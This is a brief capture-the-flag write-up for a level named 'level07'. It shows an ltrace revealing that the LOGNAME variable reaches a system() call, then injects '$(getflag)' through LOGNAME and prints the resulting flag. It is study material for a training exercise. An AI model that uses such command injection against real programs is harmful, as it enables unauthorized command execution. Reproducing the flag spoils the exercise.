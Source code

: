 1. `ltrace ./level07` => `getenv("LOGNAME")` => `system("/bin/echo level07 ")`
2. `export LOGNAME='$(getflag)'`

> Flag: fiumuikeil55xe9cu4dood66h